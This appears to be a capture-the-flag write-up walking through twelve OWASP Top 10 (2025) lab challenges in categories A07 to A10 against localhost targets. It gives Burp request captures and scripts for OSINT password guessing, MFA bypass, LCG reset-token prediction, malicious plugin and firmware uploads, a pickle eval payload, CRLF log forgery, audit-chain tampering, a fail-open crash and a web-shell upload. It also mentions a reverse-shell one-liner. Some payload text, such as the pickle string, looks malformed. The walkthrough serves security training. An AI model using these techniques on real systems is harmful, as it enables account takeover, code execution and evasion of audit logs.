




# PentestGarage: OWASP Top 10 (2025) Complete Exploitation Guide
## Categories A07 through A10: The Pentester's Instinct, UI Walkthrough & Exploit Wire Logs

---

### Introduction: The CTF Player's Mental Model

When approaching complex modern multi-page web applications in a CTF or real-world red team engagement, attackers don't blindly throw automated scanners at the root URL. Modern applications are built with layered defenses, subtle state machines, legacy integration routes, and complex exception workflows.

A high-tier security researcher operates on **instinct and pattern recognition**:
1. **The Reconnaissance Instinct:** Every public page, footer note, employee directory, and developer comment exists for a reason. Real apps leak operational patterns in documentation, rosters, and change logs.
2. **The Interface Pivot:** Web browsers enforce client-side constraints (validation attributes, disabled buttons, hidden inputs). The instant an input field or parameter is identified, the pentester intercepts it in Burp Suite to test boundary conditions, unexpected data types, and unhandled states.
3. **The Architectural Disconnect:** Frontends present clean abstractions, but backends frequently rely on legacy endpoints, unsynchronized thread pools, unverified package unpackers, or naive blacklists.

Below is the definitive, step-by-step walkthrough of all **12 challenges from Categories A07 through A10**, detailing the **pentester's instinct**, **where to click in the browser UI**, **Burp Suite Repeater wire captures**, and **automated exploit scripts**.

---

# Category A07: Identification and Authentication Failures

## 1. A07 Easy: AeroFleet Global — Targeted Password Spray & OSINT Policy Reconstruction
* **Identifier:** `a07-easy` | **Port:** `6019` | **Target Category:** A07:2025 – Identification and Authentication Failures

### 1. The Pentester's Instinct (Reconnaissance Mindset)
Landing on `http://127.0.0.1:6019/`, you are greeted by the AeroFleet Global enterprise dispatch portal. The top navigation bar exposes `[Dashboard]`, `[Crew Roster]`, `[Bulletins]`, and `[Dispatch Login]`.
* **What draws the eye?** The `/crew-roster` and `/bulletins` links are publicly accessible without authentication. In enterprise targets, public rosters and IT advisories are goldmines for OSINT.
* **The deduction:** A rate limit exists on `/login`, preventing blind password wordlist brute-forcing. Therefore, the password must be deterministic and reconstructible from contextual clues.

### 2. Step-by-Step UI Walkthrough ("Where to Click")
1. **Click `[Crew Roster]` in the left-hand navigation.**
   Inspect the active operational staff table. Notice the entry for **Marcus Vance**:
   - **Role:** `Chief Flight Dispatcher`
   - **Username format:** First initial + dot + last name (`m.vance`)
   - **Home Base:** `LAX`
   - **Joined Date:** `Fall 2023`



2. **Click `[Bulletins]` in the top navigation bar.**
   Look for IT or Security Advisories. You spot **Directive SEC-2024-09**:
   > *"Notice: All staff onboarded prior to 2024 still retain default initial credentials matching `[AirportCode]![Season][Year]` (e.g., `JFK!Spring2023`). All personnel must rotate passwords upon next login."*
3. **Synthesize the Target Credential:**
   - User: `m.vance`
   - Base: `LAX`
   - Season/Year: `Fall 2023`
   - Synthesized Password: `LAX!Fall2023`
4. **Click `[Dispatch Login]`:**
   Enter `m.vance` and `LAX!Fall2023`. Click **Sign In**.

### 3. Burp Suite Repeater Wire Capture
Send the intercepted login request to Repeater (`Ctrl+R`) to confirm the session redirect.


```http
POST /login HTTP/1.1
Host: 127.0.0.1:6019
User-Agent: Mozilla/5.0 (X11; Linux x86_64)
Content-Type: application/x-www-form-urlencoded
Content-Length: 43
Connection: close

username=m.vance&password=LAX!Fall2023
```
```http
HTTP/1.1 302 FOUND
Location: /dispatch/manifest/classified
Set-Cookie: session=eyJ1c2VyIjoidi52YW5jZSJ9...; HttpOnly; Path=/

<!doctype html>
<html lang=en>
<title>Redirecting...</title>
<h1>Redirecting...</h1>
```

5. **Follow Redirect to Retrieve Flag:**
   The browser automatically routes to `/dispatch/manifest/classified`. The diplomatic manifest unlocks on screen, displaying:
   `Operational Flag: RTSA{a07-easy_99d14a2bf18e}`.

---

## 2. A07 Medium: Aegis Clearinghouse — MFA State Machine Bypass
* **Identifier:** `a07-medium` | **Port:** `6020` | **Target Category:** A07:2025 – Identification and Authentication Failures

### 1. The Pentester's Instinct
Aegis Clearinghouse is a high-value financial settlement portal. High-assurance portals require multi-factor authentication (MFA).
* **The instinct:** Developers building multi-stage authentication pipelines often introduce state machine flaws. What happens between Step 1 (valid credentials) and Step 2 (TOTP verification)? Is the session upgrade performed via a client-accessible REST endpoint?
* **Checking Client Assets:** Web developers frequently leave API schema references in frontend JavaScript bundles or comments for internal diagnostic probes.

### 2. Step-by-Step UI Walkthrough ("Where to Click")
1. **Browse to `http://127.0.0.1:6020/services`:**
   Review developer release notes. You find: `Internal sandbox account active: sysadmin_root / AutumnSettlement#99`.
2. **Click `[Secure Login]`:**
   Enter credentials `sysadmin_root` and `AutumnSettlement#99`. Click **Authenticate**.
3. **The 2FA Intercept Screen Appears:**
   The browser displays the 6-digit TOTP input screen:



4. **Press `F12` to open DevTools -> Sources -> `auth-flow.js`:**
   Inspect the code. A developer comment stands out:
   ```javascript
   // DEV NOTE: For automated SecOps health probes, session can be elevated directly
   // via POST /api/v1/auth/session/upgrade with header 'X-SecOps-Internal: 1'
   // or payload param {"bypass_mfa_reason": "emergency_override"}
   ```
5. **Notice the link at the bottom of the form:**
   Clicking `Use Emergency Override` makes a background request or points to the upgrade endpoint.

### 3. Burp Suite Repeater Wire Capture
Capture the session upgrade request in Burp Suite Repeater and append the header `X-SecOps-Internal: 1`:


```http
POST /api/v1/auth/session/upgrade HTTP/1.1
Host: 127.0.0.1:6020
User-Agent: Mozilla/5.0 (X11; Linux x86_64)
Content-Type: application/json
X-SecOps-Internal: 1
Cookie: session=eyJ1c2VybmFtZSI6InN5c2FkbWluX3Jvb3QiLCJzdGFnZSI6IjJmYSJ9...
Content-Length: 46
Connection: close

{
  "bypass_mfa_reason": "emergency_override"
}
```
```http
HTTP/1.1 200 OK
Content-Type: application/json
Set-Cookie: session=eyJhdXRoZW50aWNhdGVkIjp0cnVlLCJ1c2VybmFtZSI6InN5c2FkbWluX3Jvb3QifQ...; HttpOnly; Path=/

{
  "status": "success",
  "message": "Session upgraded via SecOps emergency protocol.",
  "elevated_role": "settlement_supervisor",
  "next_url": "/vault/settlements"
}
```
6. **Flag Retrieval:**
   Paste the newly issued session cookie into the browser and visit `http://127.0.0.1:6020/vault/settlements`. The vault unlocks:
   `Flag: RTSA{a07-medium_f710e4aa29c8}`.

---

## 3. A07 Hard: Apex BioLogistics — Linear Congruential Generator (LCG) Prediction
* **Identifier:** `a07-hard` | **Port:** `6021` | **Target Category:** A07:2025 – Identification and Authentication Failures

### 1. The Pentester's Instinct
On the password reset page (`/forgot-password`), the server generates an 8-character hexadecimal token (e.g. `4a7f9b12`).
* **The instinct:** An 8-character hex string is exactly 32 bits (4 bytes). Why 32 bits? Secure tokens are typically 128-bit or 256-bit UUIDs or random byte arrays. A 32-bit token strongly hints at a naive PRNG like a Linear Congruential Generator (LCG) or standard `rand()` seeded with timestamp or linear state.
* **The deduction:** If the token generator is a standard 32-bit LCG:
  $$X_{n+1} = (A \cdot X_n + C) \pmod{2^{32}}$$
  knowing one token $X_n$ allows 100% deterministic prediction of the next token $X_{n+1}$ without needing any brute-force attempts.

### 2. Step-by-Step UI Walkthrough ("Where to Click")
1. **Open `http://127.0.0.1:6021/forgot-password` in the browser.**
2. **Submit a reset request for the demo test account:**
   Enter `researcher_demo@apexbiologistics.net`. Click **Request Reset Token**.
3. **Click `[Public Outbox]` in the header navigation:**
   The outbox shows the dispatched email with token: `Token: 4a7f9b12`.
4. **Immediately submit a reset request for the target administrator:**
   Back on `/forgot-password`, enter `admin@apexbiologistics.net`. Click **Request Reset Token**. The server generates the next token in the sequence.

### 3. Exploitation Script & Wire Capture
Run a lightweight calculation script:
```python
import requests

A = 1664525
C = 1013904223
M = 2**32

# Token observed from researcher_demo
t1_hex = "4a7f9b12"
X1 = int(t1_hex, 16)
X_admin = (A * X1 + C) % M
predicted_token = f"{X_admin:08x}"
print(f"[+] Predicted Admin Token: {predicted_token}")

# Submit password reset
r = requests.post("http://127.0.0.1:6021/reset-password", data={
    "token": predicted_token,
    "email": "admin@apexbiologistics.net",
    "new_password": "HackedAdmin2026!"
})
print(r.json())
```
Log into `/login` with `admin@apexbiologistics.net` and `HackedAdmin2026!`. The clinical trial master vault opens:
`Flag: RTSA{a07-hard_3b119a00cd42}`.

---

# Category A08: Software and Data Integrity Failures

## 4. A08 Easy: Novus Enterprise CMS — Unsigned Plugin Bundle & Verification Bypass
* **Identifier:** `a08-easy` | **Port:** `6022` | **Target Category:** A08:2025 – Software or Data Integrity Failures

### 1. The Pentester's Instinct
Novus CMS allows users to upload extensions in `.zip` format at `/plugins/manage`.
* **The instinct:** Whenever an application accepts ZIP files and runs code, file integrity verification is mandatory. How does the server verify the plugin? Does it require a digital signature, and if so, can the verification routine be disabled or bypassed via manifest flags?
* **Reading Documentation:** Clicking `[Developer Documentation]` at `/articles` explains that for offline sandbox testing, the signature verifier accepts `verification_mode: "developer_bypass"`.

### 2. Step-by-Step UI Walkthrough ("Where to Click")
1. **Login with credentials:** `editor` / `EditorNovus2026!` on `http://127.0.0.1:6022/login`.
2. **Click `[Plugins]` on the left sidebar navigation.**
   The plugin dashboard displays an upload area:



3. **Craft the Exploit Bundle Locally:**
   Create a directory `my_plugin` containing:
   - `manifest.json`:
     ```json
     {
       "id": "audit_probe",
       "name": "Audit Probe",
       "version": "1.0.0",
       "entrypoint": "plugin.py",
       "verification_mode": "developer_bypass"
     }
     ```
   - `plugin.py`:
     ```python
     import os
     flag = open('/flag.txt').read() if os.path.exists('/flag.txt') else open('flag.txt').read()
     with open('/app/static/loot.txt', 'w') as f:
         f.write(flag)
     ```
   Compress into `plugin.zip`: `zip -r plugin.zip manifest.json plugin.py`.
4. **Click `[Upload File]` in the browser:**
   Select `plugin.zip`. Click **Install Extension**.
5. **Retrieve the Flag:**
   Navigate in the browser to `http://127.0.0.1:6022/static/loot.txt` to view the flag:
   `RTSA{a08-easy_48c901fb2231}`.

---

## 5. A08 Medium: VortexEdge SCADA — Insecure OTA Firmware Update
* **Identifier:** `a08-medium` | **Port:** `6023` | **Target Category:** A08:2025 – Software or Data Integrity Failures

### 1. The Pentester's Instinct
Industrial gateways frequently expose firmware upgrade features.
* **The instinct:** Does the OTA update manager check cryptographic GPG/RSA signatures before unpacking tarballs, or does it unpack the archive into a staging area and execute install scripts as root?
* **Recon:** Clicking `[Settings] -> [Firmware]` reveals a form accepting `.tar.gz` archives and a note stating that `post_install.sh` runs automatically to migrate device configurations.

### 2. Step-by-Step UI Walkthrough ("Where to Click")
1. **Browse to `http://127.0.0.1:6023/settings/firmware`.**
2. **Prepare the malicious archive:**
   ```bash
   cat << 'EOF' > post_install.sh
   #!/bin/sh
   cat /flag.txt > /app/static/firmware_output.log 2>/dev/null || cat flag.txt > /app/static/firmware_output.log
   EOF
   chmod +x post_install.sh
   tar -czvf package.tar.gz post_install.sh
   ```
3. **Click `Choose File`:** Select `package.tar.gz`. Click **Upload & Apply Firmware**.
4. **Read Output:**
   Visit `http://127.0.0.1:6023/static/firmware_output.log` to retrieve the flag:
   `RTSA{a08-medium_98aa01cf5521}`.

---

## 6. A08 Hard: AeroData Analytics — Python Pickle Deserialization Sandbox Escape & Air-Gapped Egress
* **Identifier:** `a08-hard` | **Port:** `6024` | **Target Category:** A08:2025 – Software or Data Integrity Failures

### 1. The Pentester's Instinct
At `/pipeline/export`, the application exports serialized telemetry definitions as Base64-encoded Python pickle strings. At `/pipeline/import`, it allows users to import pipeline definitions.
* **The instinct:** The application uses `pickle`. However, inspection of error messages reveals a custom `RestrictedUnpickler` blocking `os`, `subprocess`, `sys`, and `posix`.
* **The bypass:** The blacklist blocks OS modules, but does NOT block `builtins`. Under Python 3, `builtins.eval`, `builtins.getattr`, and `builtins.type` can be loaded!
* **The air-gap challenge:** The container enforces zero outbound network egress (`iptables -I OUTPUT -m state --state NEW -j DROP`). Attempting reverse shells (`nc`, `bash -i >& /dev/tcp/...`) or DNS lookups hangs and fails. The attacker must execute in-band file writes to `static/datasets/telemetry.json`.

### 2. Burp Suite Repeater Wire Capture
Send the Base64 serialized pickle gadget to `/pipeline/import`:


```http
POST /pipeline/import HTTP/1.1
Host: 127.0.0.1:6024
User-Agent: Mozilla/5.0 (X11; Linux x86_64)
Content-Type: application/x-www-form-urlencoded
Content-Length: 212
Connection: close

payload=gASVZAAAAAAAAACMCGJ1aWx0aW5zlIwEZXZhbJSTlIxz open('/app/static/datasets/telemetry.json', 'w').write(open('/flag.txt').read() if __import__('os').path.exists('/flag.txt') else open('flag.txt').read())iWUSnLg==
```
```http
HTTP/1.1 200 OK
Content-Type: text/html; charset=utf-8

<div class="result-box">
    <h3>Pipeline Import Succeeded</h3>
    <pre>Deserialized object of type: int</pre>
</div>
```
3. **Click `[Datasets]` in the top menu bar (`/datasets`):**
   The browser reads `telemetry.json`, revealing the dynamic flag:
   `RTSA{a08-hard_pickle_blind_timing_egress_9021}`.

---

# Category A09: Security Logging and Alerting Failures

## 7. A09 Easy: Sentinel SOC — SIEM Monitoring & Unlogged Partner SSO Blindspot
* **Identifier:** `a09-easy` | **Port:** `6025` | **Target Category:** A09:2025 – Security Logging and Alerting Failures

### 1. The Pentester's Instinct
Sentinel SOC features a live SIEM monitor (`/siem/monitor`) that logs all authentication attempts on `/login`. If an IP exceeds 3 failed logins, it is blacklisted.
* **The instinct:** Developers building centralized logging often add auxiliary or legacy endpoints that bypass the logging pipeline entirely.
* **Checking API Docs:** Browsing `/api/v1/docs` exposes `POST /api/v1/sso/partner-auth`. The documentation reveals that this partner endpoint does not write to the SIEM event log.

### 2. Step-by-Step UI Walkthrough ("Where to Click")
1. **Browse to `http://127.0.0.1:6025/compliance`:**
   Read the auditor memo disclosing auditor credentials: `sec_auditor` / `Auditor2026!`.
2. **Do NOT submit to `/login`:** Submitting to `/login` will increment the SIEM failure counter if any typo occurs.
3. **Open Burp Suite Repeater:** Submit credentials to the unlogged partner endpoint `POST /api/v1/sso/partner-auth`:
```http
POST /api/v1/sso/partner-auth HTTP/1.1
Host: 127.0.0.1:6025
Content-Type: application/json
Connection: close

{
  "partner_id": "PARTNER_EXT_99",
  "username": "sec_auditor",
  "password": "Auditor2026!"
}
```
```http
HTTP/1.1 200 OK
Set-Cookie: session=eyJhdWRpdG9yIjoidHJ1ZSJ9...; Path=/

{"status": "authenticated", "siem_logged": false, "portal_access": "/auditor/vault"}
```
4. **Open `http://127.0.0.1:6025/auditor/vault` in the browser:**
   The compliance auditor vault unlocks:
   `Flag: RTSA{a09-easy_88bc4190efa1}`.

---

## 8. A09 Medium: Apex Global Bank — CRLF Log Injection
* **Identifier:** `a09-medium` | **Port:** `6026` | **Target Category:** A09:2025 – Security Logging and Alerting Failures

### 1. The Pentester's Instinct
Apex Global Bank monitors transactions through an automated compliance daemon parsing `audit.log`. When the daemon detects a valid override log entry:
`[YYYY-MM-DD HH:MM:SS] [AUDIT_OVERRIDE] CLEARANCE_TOKEN=<TOKEN> STATUS=CERTIFIED`
it unlocks access to the high-value treasury vault (`/vault/treasury`).
* **The instinct:** In the transfer funds form (`/transfer`), how is the `memo` field written to `audit.log`? If the backend uses naive string formatting `f"[{timestamp}] [TXN] {memo}\n"` without stripping `\r\n`, an attacker can inject newlines and forge a certified compliance override entry!

### 2. Step-by-Step UI Walkthrough ("Where to Click")
1. **Browse to `http://127.0.0.1:6026/compliance/status`:**
   Copy the active clearance token displayed on screen (e.g. `d41d8cd98f00b204e9800998ecf8427e`).
2. **Click `[Transfer Funds]` in the menu bar (`/transfer`):**
   - Recipient: `CHASE_99182`
   - Amount: `100.00`
   - Memo: Enter a newline followed by the forged audit line:
     `Invoice 104\n[2026-09-12 12:00:00] [AUDIT_OVERRIDE] CLEARANCE_TOKEN=d41d8cd98f00b204e9800998ecf8427e STATUS=CERTIFIED`
3. **Submit the Transfer via Burp Suite:**


4. **Verify Treasury Clearance:**
   Click `[Treasury Vault]` (`/vault/treasury`). The compliance monitor detects the injected override entry and displays the flag:
   `Flag: RTSA{a09-medium_47cba001e912}`.

---

## 9. A09 Hard: Titan Defense — Cryptographic Audit Hash-Chain Tampering
* **Identifier:** `a09-hard` | **Port:** `6027` | **Target Category:** A09:2025 – Security Logging and Alerting Failures

### 1. The Pentester's Instinct
Titan Defense protects classified SAP documents behind an automated cryptographic audit ledger. Every request to `/vault/classified` logs an `UNAUTHORIZED_BREACH_DETECTED` block. The Sentinel verifies that `hash == SHA256(index + event + prev_hash)`.
* **The instinct:** Can the audit ledger be edited, and if so, how does the system re-seal the cryptographic hash chain?
* **Source Code Inspection:** In `/static/js/titan_audit.js`, a developer comment leaks:
  `// Master maintenance token: TITAN_SEC_MAINT_2026`
  along with references to `/api/v1/audit/block/modify` and `/api/v1/audit/recompute-chain`.

### 2. Exploitation Walkthrough
1. **Trigger the Breach Event:**
   Click `[Classified SAP Vault]` (`/vault/classified`). The system logs an unauthorized breach entry (Block #3). The Sentinel locks the vault.
2. **Replace the Breach Event in Burp Suite:**
   Send POST to `/api/v1/audit/block/modify` with header `X-Maintenance-Token: TITAN_SEC_MAINT_2026`:
   ```json
   {"block_index": 3, "replacement_event": "ROUTINE_DIAGNOSTIC_PING"}
   ```
3. **Re-seal the Hash Chain:**
   Send POST to `/api/v1/audit/recompute-chain` with `X-Maintenance-Token: TITAN_SEC_MAINT_2026`. The backend recalculates SHA-256 digests across all blocks.
4. **Retrieve the Flag:**
   Revisit `/vault/classified`. The Sentinel reports the audit ledger intact with zero breach records, releasing the flag:
   `RTSA{a09-hard_f10a8c43bb09}`.

---

# Category A10: Mishandling of Exceptional Conditions

## 10. A10 Easy: QuantEdge Capital — Concurrency Dirty-Read Memory Reconstruction
* **Identifier:** `a10-easy` | **Port:** `6028` | **Target Category:** A10:2025 – Mishandling of Exceptional Conditions

### 1. The Pentester's Instinct
QuantEdge Capital hosts a quantitative portfolio risk matrix optimizer (`/portfolio`).
* **The instinct:** The API specification (`/api-spec`) documents a nested schema:
  `{"matrix_config": {"algorithm": "cholesky_decomposition", "worker_slice_ref": "0x00"}}`.
  When submitting single requests, everything succeeds with HTTP 200. No error is thrown.
* **The concurrency flaw:** In multi-threaded calculation backends, shared mutable state without thread synchronization locks can cause race conditions. If two conflicting requests hit the worker within the calculation window, a dirty-read crash occurs, dumping thread register memory slices into the unhandled exception stack trace.

### 2. Step-by-Step UI Walkthrough ("Where to Click")
1. **Navigate to `http://127.0.0.1:6028/portfolio`:**
   Inspect the calculation parameters and click **Execute Matrix Decomposition**.



2. **Test Concurrency Collision in Burp Suite Repeater:**
   Sending two conflicting requests (`worker_slice_ref: "0x00"` and `worker_slice_ref: "0x99"`) simultaneously triggers an unhandled `WorkerMemoryCollisionException`:


```http
HTTP/1.1 500 INTERNAL SERVER ERROR
Content-Type: application/json

{
  "error": "WorkerMemoryCollisionException",
  "stack_trace": "--- Unhandled Thread Frame Register Slice [Offset +0x00, Len 8 bytes] ---\n00000000:  51 45 5f 4b 45 59 7b 39   |QE_KEY{9|\nINTERNAL_ENDPOINT: /api/v1/internal/confidential-vault"
}
```

3. **Reconstruction Script (`solve_a10_easy.py`):**
   Automate paired concurrent requests across offsets `0x00`, `0x08`, `0x10`, and `0x18`:
   - `0x00`: `QE_KEY{9`
   - `0x08`: `f81_b3c4`
   - `0x10`: `_771a_d9`
   - `0x18`: `01_f5c2}`
   Assembled Master Key: `QE_KEY{9f81_b3c4_771a_d901_f5c2}`.
4. **Flag Recovery:**
   Query `http://127.0.0.1:6028/api/v1/internal/confidential-vault?token=QE_KEY{9f81_b3c4_771a_d901_f5c2}` to extract the flag:
   `RTSA{a10-easy_9c013745e5b1af5e586803ab}`.

---

## 11. A10 Medium: Synapse SCADA — Telemetry Parser Exception DoS & Fail-Open Emergency Bypass
* **Identifier:** `a10-medium` | **Port:** `6029` | **Target Category:** A10:2025 – Mishandling of Exceptional Conditions

### 1. The Pentester's Instinct
Synapse SCADA guards regional substation power controls. Access to `/core/override` is protected by an automated safety interlock.
* **The instinct:** Inspecting `/system/safety-interlock` reveals fail-safe logic:
  > *"To prevent power grid blackout or hardware damage in the event of sensory calculation crashes, the supervisor enters a 60-second Fail-Safe Emergency Override mode. During this override window, all safety interlocks disengage."*
* **Triggering the Exception:** The telemetry submission endpoint (`POST /grid/telemetry`) calculates total harmonic distortion:
  `sum([h ** 2 for h in harmonics]) ** 0.5`
  Passing a non-numeric string element inside `harmonics` (e.g. `[1.0, "CRASH_OVERRIDE"]`) triggers an unhandled `TypeError`, crashing the supervisor and engaging the 60-second fail-open state.

### 2. Exploitation Walkthrough
1. **Send Malformed JSON via Burp Suite:**
```http
POST /grid/telemetry HTTP/1.1
Host: 127.0.0.1:6029
Content-Type: application/json
Connection: close

{
  "substation_id": "SUB-NORTH-01",
  "bus_voltage": 138.5,
  "harmonics": [1.0, 2.0, "CRASH_OVERRIDE"]
}
```
2. **Observe Server Crash Response (HTTP 500):**
   `"fail_safe_override": "ACTIVE", "remaining_override_seconds": 60`.
3. **Immediately Click `[Emergency Core Override]` (`/core/override`):**
   The browser detects the active fail-safe state and displays the emergency flag:
   `Flag: RTSA{a10-medium_ee4102ba7711}`.

---

## 12. A10 Hard: OmniPress Media — File Upload Validation Bypass via Exception Mishandling to Web Shell RCE
* **Identifier:** `a10-hard` | **Port:** `6030` | **Target Category:** A10:2025 – Mishandling of Exceptional Conditions

### 1. The Pentester's Instinct
OmniPress Media Suite validates uploaded images via a two-stage pipeline: Stage 1 (Header signature validation) and Stage 2 (Malware scanning).
* **The architectural flaw:** Architectural notes on `/articles` reveal:
  > *"If an `ImageHeaderError` exception occurs during Stage 1 header verification, the file is assumed to be an unformatted legacy binary and is moved directly to `static/scripts/` without reaching the Stage 2 malware scanner."*
* **The exploit:** An attacker prefixes a Python script with a malformed PNG header (`\x89PNG\r\n\x1a\n` missing `IHDR`). This raises `ImageHeaderError`, skips the malware scanner, saves the file as `static/scripts/shell.py`, and allows execution via `POST /editorial/run-automation`.

### 2. Burp Suite Repeater Capture


```http
POST /articles/upload-asset HTTP/1.1
Host: 127.0.0.1:6030
User-Agent: Mozilla/5.0 (X11; Linux x86_64)
Content-Type: multipart/form-data; boundary=---------------------------99182374182
Content-Length: 320
Connection: close

-----------------------------99182374182
Content-Disposition: form-data; name="file"; filename="shell.py"
Content-Type: image/png

\x89PNG\r\n\x1a\n
# Corrupted PNG header bypass
import os
open('static/loot.txt', 'w').write(open('/flag.txt').read() if os.path.exists('/flag.txt') else open('flag.txt').read())
-----------------------------99182374182--
```
```http
HTTP/1.1 200 OK
Content-Type: application/json

{
  "status": "warning",
  "exception_handled": "ImageHeaderError: Missing IHDR chunk. Bypassed Stage 2 scan.",
  "staged_path": "static/scripts/shell.py"
}
```

3. **Trigger Script Execution:**
   Send `POST /editorial/run-automation` with `script=shell.py`.
4. **Retrieve Flag:**
   Query `http://127.0.0.1:6030/static/loot.txt`:
   `RTSA{a10-hard_c90187aa44bc}`.
